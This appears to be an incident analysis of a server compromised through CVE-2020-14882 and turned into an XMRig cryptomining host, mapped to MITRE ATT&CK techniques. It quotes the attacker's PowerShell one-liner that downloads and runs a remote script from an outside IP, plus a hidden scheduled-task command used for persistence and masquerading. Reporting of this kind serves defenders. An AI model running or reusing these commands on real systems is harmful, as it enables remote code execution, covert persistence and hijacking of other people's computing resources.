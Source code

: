 # Case Summary

A threat actor exploited CVE-2020-14882 by making a call to the images directory, which allowed them to execute code on the server. Using this exploit, they downloaded and executed an xml file, which included a PowerShell command to download and execute a script. The script does multiple things, such as download XMRig and its config, rename XMRig to sysupdate, schedule a task for it’s update process, and confirm the miner is running.

# analysis

# MITRE ATT&CK

The threat actor executed an xml file named wbw hosted at 95.142.39[.]135 by exploiting CVE-2020-14882.

In the above screenshot, the threat actor executes wbw.xml which then downloads and executes 1.ps1.

powershell.exe "Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://95.142.39.135/1.ps1'))"

The script starts off by setting parameters, such as the download locations for XMRig and its config.

The script then downloads and executes XMRig, renames it to sysupdate and then sets a schedule task, which runs update.ps1. There was no script located in this directory but we assume one would show up when the miner needed to be updated, if the threat actor still had access.

"C:\Windows\System32\schtasks.exe" /Create /SC MINUTE /TN "Update service for Windows Service" /TR "PowerShell.exe -ExecutionPolicy bypass -windowstyle hidden -File C:\Users\Administrator\update.ps1" /MO 30 /F

The script renamed xmrig.exe to sysupdate in attempt to hide itself.

The server’s CPU was maxed out at 100% and likely would have caused issues in an enterprise environment. At the time of this writing the wallet used for mining barely had anything in it and appears to be dedicated to us.

# MITRE ATT&CK DATASET
Exploit Public-Facing Application - T1190

Command-Line Interface - T1059

Command and Scripting Interpreter - T1059

Scheduled Task - T1053.005

Resource Hijacking - T1496

Masquerading - T1036


